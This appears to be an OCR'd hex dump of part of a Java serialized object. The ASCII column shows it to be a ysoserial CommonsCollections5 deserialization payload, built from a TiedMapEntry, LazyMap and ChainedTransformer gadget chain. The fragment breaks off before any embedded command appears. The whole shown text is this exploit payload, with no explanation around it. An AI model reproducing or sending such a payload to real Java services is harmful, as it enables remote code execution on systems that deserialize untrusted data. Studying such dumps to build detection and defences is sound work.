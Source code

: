 ```txt
00000110  6e 74 3b 4c 00 14 73 75  70 70 72 65 73 73 65 64  |nt;L..suppressed|
00000120  45 78 63 65 70 74 69 6f  6e 73 74 00 10 4c 6a 61  |Exceptionst..Lja|
00000130  76 61 2f 75 74 69 6c 2f  4c 69 73 74 3b 78 70 71  |va/util/List;xpq|
00000140  00 7e 00 08 70 75 72 00  1e 5b 4c 6a 61 76 61 2e  |.~..pur..[Ljava.|
00000150  6c 61 6e 67 2e 53 74 61  63 6b 54 72 61 63 65 45  |lang.StackTraceE|
00000160  6c 65 6d 65 6e 74 3b 02  46 2a 3c 3c fd 22 39 02  |lement;.F*<<."9.|
00000170  00 00 78 70 00 00 00 03  73 72 00 1b 6a 61 76 61  |..xp....sr..java|
00000180  2e 6c 61 6e 67 2e 53 74  61 63 6b 54 72 61 63 65  |.lang.StackTrace|
00000190  45 6c 65 6d 65 6e 74 61  09 c5 9a 26 36 dd 85 02  |Elementa...&6...|
000001a0  00 08 42 00 06 66 6f 72  6d 61 74 49 00 0a 6c 69  |..B..formatI..li|
000001b0  6e 65 4e 75 6d 62 65 72  4c 00 0f 63 6c 61 73 73  |neNumberL..class|
000001c0  4c 6f 61 64 65 72 4e 61  6d 65 71 00 7e 00 05 4c  |LoaderNameq.~..L|
000001d0  00 0e 64 65 63 6c 61 72  69 6e 67 43 6c 61 73 73  |..declaringClass|
000001e0  71 00 7e 00 05 4c 00 08  66 69 6c 65 4e 61 6d 65  |q.~..L..fileName|
000001f0  71 00 7e 00 05 4c 00 0a  6d 65 74 68 6f 64 4e 61  |q.~..L..methodNa|
00000200  6d 65 71 00 7e 00 05 4c  00 0a 6d 6f 64 75 6c 65  |meq.~..L..module|
00000210  4e 61 6d 65 71 00 7e 00  05 4c 00 0d 6d 6f 64 75  |Nameq.~..L..modu|
00000220  6c 65 56 65 72 73 69 6f  6e 71 00 7e 00 05 78 70  |leVersionq.~..xp|
00000230  01 00 00 00 51 74 00 03  61 70 70 74 00 26 79 73  |....Qt..appt.&ys|
00000240  6f 73 65 72 69 61 6c 2e  70 61 79 6c 6f 61 64 73  |oserial.payloads|
00000250  2e 43 6f 6d 6d 6f 6e 73  43 6f 6c 6c 65 63 74 69  |.CommonsCollecti|
00000260  6f 6e 73 35 74 00 18 43  6f 6d 6d 6f 6e 73 43 6f  |ons5t..CommonsCo|
00000270  6c 6c 65 63 74 69 6f 6e  73 35 2e 6a 61 76 61 74  |llections5.javat|
00000280  00 09 67 65 74 4f 62 6a  65 63 74 70 70 73 71 00  |..getObjectppsq.|
00000290  7e 00 0b 01 00 00 00 33  71 00 7e 00 0d 71 00 7e  |~......3q.~..q.~|
000002a0  00 0e 71 00 7e 00 0f 71  00 7e 00 10 70 70 73 71  |..q.~..q.~..ppsq|
000002b0  00 7e 00 0b 01 00 00 00  22 71 00 7e 00 0d 74 00  |.~......"q.~..t.|
000002c0  19 79 73 6f 73 65 72 69  61 6c 2e 47 65 6e 65 72  |.ysoserial.Gener|
000002d0  61 74 65 50 61 79 6c 6f  61 64 74 00 14 47 65 6e  |atePayloadt..Gen|
000002e0  65 72 61 74 65 50 61 79  6c 6f 61 64 2e 6a 61 76  |eratePayload.jav|
000002f0  61 74 00 04 6d 61 69 6e  70 70 73 72 00 1f 6a 61  |at..mainppsr..ja|
00000300  76 61 2e 75 74 69 6c 2e  43 6f 6c 6c 65 63 74 69  |va.util.Collecti|
00000310  6f 6e 73 24 45 6d 70 74  79 4c 69 73 74 7a b8 17  |ons$EmptyListz..|
00000320  b4 3c a7 9e de 02 00 00  78 70 78 73 72 00 34 6f  |.<......xpxsr.4o|
00000330  72 67 2e 61 70 61 63 68  65 2e 63 6f 6d 6d 6f 6e  |rg.apache.common|
00000340  73 2e 63 6f 6c 6c 65 63  74 69 6f 6e 73 2e 6b 65  |s.collections.ke|
00000350  79 76 61 6c 75 65 2e 54  69 65 64 4d 61 70 45 6e  |yvalue.TiedMapEn|
00000360  74 72 79 8a ad d2 9b 39  c1 1f db 02 00 02 4c 00  |try....9......L.|
00000370  03 6b 65 79 71 00 7e 00  01 4c 00 03 6d 61 70 74  |.keyq.~..L..mapt|
00000380  00 0f 4c 6a 61 76 61 2f  75 74 69 6c 2f 4d 61 70  |..Ljava/util/Map|
00000390  3b 78 70 74 00 03 66 6f  6f 73 72 00 2a 6f 72 67  |;xpt..foosr.*org|
000003a0  2e 61 70 61 63 68 65 2e  63 6f 6d 6d 6f 6e 73 2e  |.apache.commons.|
000003b0  63 6f 6c 6c 65 63 74 69  6f 6e 73 2e 6d 61 70 2e  |collections.map.|
000003c0  4c 61 7a 79 4d 61 70 6e  e5 94 82 9e 79 10 94 03  |LazyMapn....y...|
000003d0  00 01 4c 00 07 66 61 63  74 6f 72 79 74 00 2c 4c  |..L..factoryt.,L|
000003e0  6f 72 67 2f 61 70 61 63  68 65 2f 63 6f 6d 6d 6f  |org/apache/commo|
000003f0  6e 73 2f 63 6f 6c 6c 65  63 74 69 6f 6e 73 2f 54  |ns/collections/T|
00000400  72 61 6e 73 66 6f 72 6d  65 72 3b 78 70 73 72 00  |ransformer;xpsr.|
00000410  3a 6f 72 67 2e 61 70 61  63 68 65 2e 63 6f 6d 6d  |:org.apache.comm|
00000420  6f 6e 73 2e 63 6f 6c 6c  65 63 74 69 6f 6e 73 2e  |ons.collections.|
00000430  66 75 6e 63 74 6f 72 73  2e 43 68 61 69 6e 65 64  |functors.Chained|
00000440  54 72 61 6e 73 66 6f 72  6d 65 72 30 c7 97 ec 28  |Transformer0...(|
00000450  7a 97 04 02 00 01 5b 00  0d 69 54 72 61 6e 73 66  |z.....[..iTransf|
00000460  6f 72 6d 65 72 73 74 00  2d 5b 4c 6f 72 67 2f 61  |ormerst.-[Lorg/a|
00000470  70 61 63 68 65 2f 63 6f  6d 6d 6f 6e 73 2f 63 6f  |pache/commons/co|
00000480  6c 6c 65 63 74 69 6f 6e  73 2f 54 72 61 6e 73 66  |llections/Transf|
00000490  6f 72 6d 65 72 3b 78 70  75 72 00 2d 5b 4c 6f 72  |ormer;xpur.-[Lor|
000004a0  67 2e 61 70 61 63 68 65  2e 63 6f 6d 6d 6f 6e 73  |g.apache.commons|
000004b0  2e 63 6f 6c 6c 65 63 74  69 6f 6e 73 2e 54 72 61  |.collections.Tra|
000004c0  6e 73 66 6f 72 6d 65 72  3b bd 56 2a f1 d8 34 18  |nsformer;.V*..4.|
000004d0  99 02 00 00 78 70 00 00  00 05 73 72 00 3b 6f 72  |....xp....sr.;or|
000004e0  67 2e 61 70 61 63 68 65  2e 63 6f 6d 6d 6f 6e 73  |g.apache.commons|
000004f0  2e 63 6f 6c 6c 65 63 74  69 6f 6e 73 2e 66 75 6e  |.collections.fun|
```